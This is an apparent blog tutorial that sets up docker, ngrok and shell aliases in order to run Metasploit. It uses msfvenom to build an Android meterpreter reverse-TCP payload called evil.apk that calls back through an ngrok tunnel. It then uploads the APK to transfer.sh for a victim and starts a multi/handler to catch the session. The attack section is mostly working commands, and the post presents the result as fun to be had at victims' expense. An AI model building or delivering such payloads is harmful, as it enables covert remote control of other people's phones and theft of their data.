





Hey, you! \
Aren’t you tired of always having broken tools relying on broken software?  \
Pissed off because you just broke your system (againnn...) trying to fix your previously broken tools and now everything’s fucked-up and you want to raise penguins out of the tech world? \

Or even worse, you want a reverse shell but you’re :

- At your grandparents place and they lost the router password so you can’t expose ports
- So broke that you can’t buy nor rent a virtual private server

Well that’s oddly specific but you’re on the exact right place on earth (and on the web)! \o7 \
Today, I’ll teach you how to use docker, metasploit, ngrok and aliases in order to simplify your life while hacking the planet! 


## Step 1 : Install and setup docker

UPDATE : Let's give a big shout out to [@Creased_](https://twitter.com/Creased_) that [tweeted me](https://twitter.com/Creased_/status/1206556812541091840) about the new / current docker install process, the one I initially published was deprecated. Oopsy Daisy.. `:x`

The install procedure is specified in the official doc, but... Gotta go faaaast (and self contained)!

```bash
# If previously installed, clean up 
sudo apt-get remove docker docker-engine docker.io containerd runc

# Update and install
sudo apt-get update
sudo apt-get install -y apt-transport-https ca-certificates curl gnupg-agent software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo apt-key fingerprint 0EBFCD88
sudo add-apt-repository \
   "deb [arch=amd64] https://download.docker.com/linux/ubuntu \
   $(lsb_release -cs) stable" # Hardcode disco if you're on ubuntu 19.XX
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io
sudo docker run hello-world

# OR

curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh get-docker.sh
```

You can always _start_, _stop_, or _enable_ the docker services using systemctl. 
Just check it's working as intended using the _status_ command, and eventually _enable_ it at reboot. 

```bash
sudo systemctl start docker
sudo systemctl status docker
sudo systemctl enable docker
```

If you’re not familiar AT ALL with docker, reading Richard’s introduction might be a good starting point : https://teuze.github.io/posts/docker/


## Step 2 : Install and setup ngrok

> Ngrok is a tool that can allow someone to expose ports to the internet without struggle. 

Ngrok folks have servers and custom DNS running and exposing IP addresses and ports for us. When the developer decides to expose a port, a connection is established with them and one of their subdomain:port is redirected to the open connection, thus exposing the local port.


Create an account, sign-in and visit https://dashboard.ngrok.com/get-started to get your auth token. 
Then install and configure your local instance with : 

```bash
sudo snap install ngrok
ngrok authtoken <REDACTED_TOKEN>
```

Now let’s verify everything works by creating a tunnel, checking logs in the webUI and opening a tcp tunnel. 

- Top right : 
 - Ngrok status & logs
 - google-chrome http://localhost:4040
- Top left : 
 - Ngrok tunnel
 - ngrok tcp 8888
- Bottom right : 
 - netstat, listen, verbose (really useful to know when we receive a connection), port 8888 (default is tcp)
 - nc -lvp 8888
- Bottom left : 
 - netcat, connect to the right ngrok subdomain and port 
 - nc 0.tcp.ngrok.io 17064




## Step 3 : Define your aliases

Add the following aliases in _~/.zshrc_, or _~/.bashrc_ if you’re more vanilla, then source your config and you’re good to go! 

```bash
cat > ~/.zshrc << EOF
alias metasploit8888='sudo docker run --rm -it -v /tmp/msf:/tmp/msf -p 8888:8888 -e MSF_UID=0 -e MSF_GID=0 metasploitframework/metasploit-framework:latest /bin/bash'
alias wipe_docker='sudo docker rm $(sudo docker ps -a -q) && docker rmi $(sudo docker images -q)'

source ~/.zshrc
EOF
```

> Update one week later : \
> Adding the flag `--network=host` allows you to run many dockers without specifying the published ports, without port (bind) conflicts, and that's one less ip to be confused with so that's what I use now ! =]


Let’s spend some time explaining metasploit8888 alias. 

- `sudo` # we need to be root to interact with the docker socket
- `docker` # Interact with the socket using docker (captain obvious <3)
- `run` # start a process in out container
- `--rm` # remove the container on exit (cleaner)
- `-it` # interactive allocate a pseudo tty
- `-v /tmp/msf:/tmp/msf` # Mount /tmp/msf from our host in the docker, useful - `to extract data
- `-p 8888:8888` # expose out docker port on the host itself
- `-e MSF_UID=0 -e MSF_GID=0` # metasploit specific environment variables (root user and group)
- `metasploitframework/metasploit-framework:latest`  # the image we’ll use, from the Docker Hub
- `/bin/bash` # Override the entry point (msfconsole) with bash, so we can also use msfvenom

Image provider here : https://hub.docker.com/r/metasploitframework/metasploit-framework/


## Step 4 : Hack the planet!

Still here? Nice! Here’s our roadmap : 

- Generate a meterpreter payload (apk)
- Expose the dockerToHost (docker -p) and HostToWorld (ngrok)
- Get the meterpreter handler ready
- Execute the payload
- Profit???

### Step 4.1 : Create the tunnel and generate our payload

In order to create the right payload, we need to know which port we’ll use, thus we start the tunnel first. 

```bash
ngrok tcp 8888
```

Then we list the payloads and use the one of our choice. It should depend on the situation, but we’re just having fun here so let’s go for something efficient and reliable : meterpreter (shell++), reverse (connects back to us), tcp (more reliable than udp but slower for big queries)

```bash
./msfvenom --list payload | grep android
./msfvenom -p android/meterpreter_reverse_tcp LHOST=0.tcp.ngrok.io LPORT=8888 > /tmp/msf/evil.apk
```

And then we make our payload available to our victim, thanks to transfer.sh ... :]

```bash
curl --upload-file /tmp/msf/evil.apk https://transfer.sh/evil.apk
```




### Step 4.2 : Start the multi/handler

At any time in msfconsole, you can use the following commands to know what you’re dealing with : 

```bash
help
info
options
show + tab # exhaustive list of available assets
```

Let’s grab our container ip and configure the multi/handler that will receive our reverse meterpreter. 

```bash
./msfconsole -q
use exploit/multi/handler
set payload android/meterpreter_reverse_tcp
ip a | grep eth # Get the container local ip for LHOST
set LHOST 172.17.0.2
set LPORT 8888
exploit
```



### Step 4.3 : Execute the payload, enjoy the meterpreter

Our target will somehow install the apk on his / her phone, and then... KABOOM! \

The app is installed and started, we receive our reverse meterpreter and can now have fun with it! \
Small demo here, getting system info, sending a message to myself and popping a shell :)



Pay attention to all the permissions required, if you see that, some day, from any app : flee you fool!



## Step 5 : That’s all folks!

From now on, when you’ll have a new tool to try or dirty tricks to test, browse the world wild (no typo here) web and find dockers! That being said, please be extra careful with the parameters you use with docker, it’s still possible to wreck your system in many ways! 

I initially wanted to enumerate a few common docker pitfalls, but there are just so many of them that I’ll just give pointers to more complete resources : 

- [Root via docker spawning](https://www.electricmonk.nl/log/2017/09/30/root-your-docker-host-in-10-seconds-for-fun-and-profit/)
- [Vulnerability in runC](https://snyk.io/blog/a-serious-security-flaw-in-runc-can-result-in-root-privilege-escalation-in-docker-and-kubernetes/)
- [Docker group abuse](https://fosterelli.co/privilege-escalation-via-docker)
- [Good practices](https://www.secjuice.com/how-to-harden-docker-containers/)
- [Hardening and optimisations](https://pythonspeed.com/docker/)

I hope that you liked this workflow and learned something, and hopefully now you’ll spend less time fixing your system and more time hacking the world! 
